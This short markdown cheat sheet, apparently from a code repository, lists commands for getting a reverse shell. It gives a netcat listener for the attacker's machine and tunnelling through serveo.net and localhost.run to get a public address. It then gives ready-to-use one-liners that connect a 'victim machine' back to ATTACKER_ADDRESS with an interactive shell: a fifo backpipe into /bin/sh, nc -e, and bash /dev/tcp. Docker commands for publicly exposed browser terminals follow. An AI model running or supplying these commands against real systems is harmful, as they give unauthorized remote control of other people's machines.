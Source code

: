 # terminal reverse shell

## open listener port on attackers machine
* `nc -v -lp 443`
* macOS `nc -v -l 443`

#### optional - get public address by creating a tcp reverse tunnel
`ssh -R 443:localhost:443 serveo.net`

## reverse connect from victim machine to attackers machine
### bash

* nc
  * with fifo back pipe
    `BACKPIPE=/tmp/backpipe; rm -f $BACKPIPE; mkfifo $BACKPIPE; nc $ATTACKER_ADDRESS $ATTACKER_PORT 0<$BACKPIPE | /bin/sh >$BACKPIPE 2>&1`
  * with `-e` option
    `nc ATTACKER_ADDRESS:ATTACKER_PORT –e /bin/sh`
* bash
  `/bin/bash -c '/bin/bash -i >& /dev/tcp/${0/://} 0>&1' localhost:8000`

# browser reverse shell - ttyd
`docker run --rm -p 8080:7681 tsl0922/ttyd`
`ssh -R 80:localhost:8080 nokey@localhost.run`

# browser reverse shell - tty-share
`docker run --rm -it elisescu/tty-share --public`
